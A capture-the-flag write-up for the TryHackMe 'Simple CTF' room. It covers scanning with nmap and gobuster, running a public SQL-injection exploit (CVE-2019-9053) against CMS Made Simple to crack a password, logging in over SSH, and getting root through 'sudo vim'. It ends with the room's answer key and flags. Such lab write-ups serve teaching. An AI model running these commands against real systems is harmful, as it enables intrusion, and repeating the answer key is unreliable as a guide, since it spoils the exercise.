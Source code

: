 # Simple CTF

![SimpleCTF](./images/SimpleCTF.png)

[Simple CTF](https://tryhackme.com/room/easyctf) room is listed as an easy room, and covers a lot of different tools and aspects of security, which makes it a great room to complete for beginners.
An overview of what we’ll be using is listed here:  

* Basic linux commands
* Nmap scan
* Gobuster
* Searchsploit

## Set up environment IP as target IP_MACHINE

```
export IP=10.10.179.1
```  

![IP](./images/IP.png)


## Enumeration and Scanning

* Check the IP from browser 

	![website](./images/website.png)

* Scan open port with nmap

	```
	nmap -sV -sC $IP | tee nmap-scan.txt
	```  

	File scan resulted [here](./files/nmap-scan.txt)  

	![nmap-scan](./images/nmap-scan.png)

* Scan directory with gobuster
	
	* Default directory scan
		
		```
		gobuster dir -u $IP -w /usr/share/wordlists/dirb/common.txt | tee gobuster-default.txt
		```  

		File scan resulted [here](./files/gobuster-default.txt)  

		![gobuster-default](./images/gobuster-default.png)

	* Sub directory scan
		
		```
		gobuster dir -u $IP/simple -w /usr/share/wordlists/dirb/common.txt | tee gobuster-simple.txt
		```  
		
		File scan resulted [here](./files/gobuster-simple.txt)  

		![gobuster-simple](./images/gobuster-simple.png)

* Try to open website

	* Check the sub directory
		
		![website-simple](./images/website-simple.png)

	* Check website version
	
		![website-version](./images/website-version.png)

	* Check website posted
	
		![website-posted](./images/website-posted.png)


* Find Exploit from DB

	* Search exploit 
		
		```
		searchsploit CMS made simple 2.2.8
		```  

		![exploit-search](./images/exploit-search.png)

	* Download exploit file
		
		```
		searchsploit -m php/webapps/46635.py
		```  

		![exploit-download](./images/exploit-download.png)

	* Check CVE number 
		
		```
		nano 46635.py
		```  

		![cve-number](./images/cve-number.png)


## Gaining Acecss & Exploitation

* Run the exploit file with python2

	```
	python2 46635.py -u http://$IP/simple --crack -w /usr/share/wordlists/rockyou.txt
	```  

	![script-run](./images/script-run.png)
	
	Resulted  

	![exploit-pass](./images/exploit-pass.png)

* Login to target machine

	```
	ssh -p 2222 mitch@$IP
	```

	![ssh-login](./images/ssh-login.png)

* Get the user.txt

	![user-txt](./images/user-txt.png)

* Get root access

	* Check privilege escalation with sudo
	
		```
		sudo -l
		```  

		![sudo-l](./images/sudo-l.png)

	* Run sudo to get root access
	
		```
		sudo vim -c ':!/bin/sh'
		```  

		![home-user](./images/home-user.png)

	* Get `root.txt`
	
		![root-txt](./images/root-txt.png)

## Questions and Answers

* How many services are running under port 1000?

	`2`
	
* What is running on the higher port?

	`ssh`
	
* What's the CVE you're using against the application? 

	`CVE-2019-9053`
	
* To what kind of vulnerability is the application vulnerable?

	`SQLi`

* What's the password?

	`secret`

* Where can you login with the details obtained?

	`ssh`
	
* What's the user flag?

	`G00d j0b, keep up!`
		
* Is there any other user in the home directory? What's its name?

	`sunbath`
	
* What can you leverage to spawn a privileged shell?

	`vim`
	
* What's the root flag?

	`W3ll d0n3. You made it!`
